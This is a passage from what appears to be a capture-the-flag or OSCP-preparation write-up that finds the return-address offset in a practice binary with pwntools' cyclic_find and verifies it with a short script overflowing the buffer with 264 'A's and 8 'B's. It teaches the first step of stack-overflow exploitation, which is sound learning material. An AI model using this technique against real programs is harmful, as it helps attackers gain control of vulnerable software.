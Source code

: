 The RIP offset can now be easily found using cyclic_find:

{% highlight python %}
>>> from pwn import *
>>> cyclic_find(0x6261616161616169, n=8)
264
>>>
{% endhighlight %}

I used the following program to verify this offset:

{% highlight python %}
from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += b"A" * 264                
payload += b"B" * 8

io.sendline(payload)
io.interactive()
{% endhighlight %}

The program above sends 264 'A's (you could call that a padding) and then 8 'B's. The RIP (which is 8 bytes long) will be overwritten with the 'B's only if the offset is correct.

![gdb-peda crash 3](/images/baby_rop/gdb-3.png)

It worked! This concludes our OSCP bof preparation :)

